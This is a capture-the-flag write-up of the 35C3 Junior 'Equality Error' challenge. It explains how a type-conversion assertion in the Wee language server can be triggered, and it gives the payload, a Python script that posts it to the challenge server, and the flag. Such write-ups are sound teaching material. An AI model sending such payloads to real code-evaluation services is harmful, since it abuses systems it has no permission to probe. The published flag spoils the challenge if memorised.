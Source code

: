 # 35C3 Junior CTF – Equality Error

* **Category:** Misc
* **Points:** variable

## Challenge

> With assert_conversion(str: string), we assert that our VM properly handles conversions. So far we never triggered the assertion and are certain it's impossible.
>
> http://35.207.189.79/
>
> Difficulty estimate: Medium
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

The *Wee* interpreter source code can be found here: `http://35.207.189.79/weelang/weeterpreter.ts`.

The endpoint that can be used to run *Wee* code is the following.

```
http://35.207.189.79/wee/run
```

The assertion that must be exploited is the following.

```Typescript
externals.addFunction(
   "assert_conversion",
   [{name: "str", type: compiler.StringType}], compiler.StringType,
   false,
   (str: string) => str.length === +str + "".length || !/^[1-9]+(\.[1-9]+)?$/.test(str)
       ? "Convert to Pastafarianism" : flags.CONVERSION_ERROR
)
```

The second part of the condition contains an *or* operation. The regex refers to floating point numbers, so it is sufficient to make it `true`.

The payload is the following.

```
alert(assert_conversion("1.1"))
```

The following Python script can be used to send the payload.

```Python
import requests
import json

url = "http://35.207.189.79/wee/run"
data_structure = """{{ "code": {} }}"""
data_content = """alert(assert_conversion("1.1"))"""

data_content_to_send = json.dumps(data_content)
data_to_send = data_structure.format(data_content_to_send)
print "[*] Payload: '{}'.".format(data_to_send)
response = requests.post(url, data=data_to_send)
print "[*] Response: '{}'.".format(response.text)
```

The flag is the following.

```
35C3_FLOATING_POINT_PROBLEMS_I_FEEL_B4D_FOR_YOU_SON
```